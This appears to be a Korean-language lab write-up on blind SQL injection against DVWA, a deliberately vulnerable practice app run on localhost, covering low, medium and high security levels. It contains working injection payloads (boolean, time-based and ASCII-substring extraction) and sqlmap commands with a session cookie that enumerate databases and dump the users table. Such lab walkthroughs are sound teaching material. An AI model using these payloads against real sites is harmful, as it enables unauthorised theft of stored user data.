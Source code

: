 # Blind SQL INJECTION

Blind SQL injection은 일반 SQL injection처럼 우회하는 방법이 비슷하지만 세부적으로는 조금 다르다.  
SQL injection은 직접적으로 명령을 입력하여 해킹을 시도하는 방면에 Blind SQL injection은 간접적으로 값을 알아낸다.  

왜 간접적으로 알아내는가?  
그 이유는 우리가 웹으로부터 받는 응답이다.  
우리가 받는 응답은 True, False의 경우 두가지중 하나이기 때문이다.  

DVWA에 있는 예제로 설명을 진행한다. 

우리는 injection을 진행하기 위하여 쿼리문을 작동시킬 수 있는지 부터 확인해야한다.  
그 확인하는 방법은 두가지가 있다.  

>우선 웹으로부터 True를 표시하는 값을 먼저 찾는다.  
>그 후에 둘중에 하나를 시도한다.  
>1' or 1=1 로 쿼리문 작동확인
(Boolean based)  
>1’ and sleep(3)#  3초뒤 웹이 반응하는지 확인
(Time based)

mySQL에서는 information-schema(colums)에 핵심 점보들을 모두 담고있다.  
(db, table, data등)  

>[low]

이런 입력을 생각해보자.  
1' and ascii(substr((select first_name from users where user_id='1'),1,1))>91#  
이 입력은 first_name값을 users table에서 id가 1인 문자열중 첫번째 1글자가  91보다 큰지 확인한다.  
and로 연결되었고 우리는 1이 ture를 반환하는 사실을 알기 때문에 이름의 첫글자 값이 91보다 크다면 true를 반환한다는 사실을 알 수 있다.  
이렇게 값을 비교하는 방법으로 정확한 데이터 값을 알아낼 수 있다.  

>sqlmap으로 데이터값 알아내기  
>자신의 쿠키 값을 구한다.  
>python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=5f8cff56374867f60ae22793532fd0d6; security=low"  
>___________  
>python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=5f8cff56374867f60ae22793532fd0d6; security=low" --current-db        ->db이름 알아냄  
>____  
>python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=5f8cff56374867f60ae22793532fd0d6; security=low" -D dvwa --tables        ->db의 테이블들을 알아냄  
>___  
>python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=5f8cff56374867f60ae22793532fd0d6; security=low" -T users -dump           테이블의 모든값을 알아냄  
>___  

</br>  
</br>  

>[medium]

문제를 보자.
![bsi_mid](image/bsi_medium.png)
프록시를 이용해야한다.  
프록시를 이용하여 1 or 1=1 를 넘겨주면 쿼리문을 사용할 수 있다.  

>[high]  

이 문제에서는 쿼리문을 다음값을 전해주어 작동하는지 확인할 수 있을것이다.  
1' or 1=1#  

medium과 high에서는 sqlmap이 적용되지 않는다. 다른방법으로 자동화시켜서 값을 얻어야 할 것이다.
